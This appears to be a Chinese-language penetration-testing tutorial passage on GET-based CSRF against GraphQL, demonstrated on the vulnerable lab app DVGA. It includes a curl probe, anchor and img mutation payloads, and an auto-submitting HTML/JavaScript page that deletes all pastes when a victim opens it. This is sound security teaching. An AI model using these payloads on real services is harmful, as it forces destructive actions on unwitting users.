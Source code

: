 ### 测试基于 GET 的漏洞

许多 GraphQL 实现禁止使用 GET 方法，但通过 GET 方法发送变更操作（mutation）尤其被视为禁忌，因为这被认为是一个安全风险，可能导致 CSRF 漏洞，正如你所学到的那样。通常，GraphQL 服务器会拒绝任何使用 GET 方法的变更请求。要测试一个 GraphQL 服务器是否支持它们，你可以发送如下的 cURL 命令：

```
# **curl -X GET "http://localhost:5013/graphql?query=mutation%20%7B%20__typename%20%7D"**
```

`%20`表示空格，`%7B`和`%7D`是变更查询的 URL 编码形式的左花括号（`{`）和右花括号（`}`），加号（`+`）表示编码后的空格。将此发送给 DVGA 后，cURL 命令的响应如下：

```
{"errors":[{"message":"Can only perform a mutation operation from a POST request."}]}
```

如你所见，DVGA 不允许使用 GET 方法进行变更操作。然而，在渗透测试中，假设没有什么是不可行的，测试所有假设，因为你永远不知道何时会遇到一个完全自定义的 GraphQL 实现，它可能偏离了标准。

基于 GET 的 CSRF 攻击比基于 POST 的攻击更有趣，因为应用程序通常不会在 GET 请求上实现反 CSRF 防护。这是因为状态变化的操作通常使用其他 HTTP 方法。如果服务器允许通过 GET 方法进行变更操作，我们可以利用 HTML 锚点（`<a>`）标签和超文本引用属性（`href`）构建一个超链接，将变更操作发送到服务器。锚点标签只执行基于 GET 的请求，这也是为什么它不适合用来进行 POST 基础的 CSRF 攻击：

```
<a href="http://localhost:5013/graphql?query=mutation{someSensitiveAction}" />
```

或者，我们可以使用带有源（`src`）属性的图片标签（`<img>`）来嵌入我们的变更操作，像这样：

```
<img src="http://localhost:5013/graphql?query=mutation{someSensitiveAction}" />
```

这种技术适用于任何允许你指定看起来无害的 HTML 标签（如`<a>`和`<img>`）的平台。因此，除了诱使受害者访问包含这些链接的攻击者控制的网站之外，你还可以在接受 URL 并在客户端渲染链接的合法网站中使用它们。结果，客户端会向攻击者选择的另一个网站发出直接的 GET 请求。

虽然我们不能通过 GET 方法向 DVGA 发送变更操作，但我们可以尝试使用 GET 方法发送会改变状态的查询`deleteAllPastes`。顾名思义，`deleteAllPastes` 查询将删除服务器数据库中的所有粘贴。我们可以通过 GET 或 POST 来利用这个查询。

为了执行这样的 CSRF 攻击，本文档使用`<form>`标签来提交查询。通过`<script>` HTML 标签定义的 JavaScript 代码会在受害者加载页面后自动发起请求：

```
<html>
  <body>
    <h1>This form is going to submit itself in 2 seconds...</h1>
     <form id="auto_submit_form" **method="GET"** action="http://localhost:5013/graphql">
       <input type="hidden" name="query" value="**query { deleteAllPastes }**"/>
       <input type="submit" value="Submit">
     </form>
  </body>

<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function csrf() {
    for (let i = 0; i < 2; i++) {
        await sleep(i * 1000);
    }
    document.forms['auto_submit_form'].submit();
}

csrf();

</script>
<html>
```
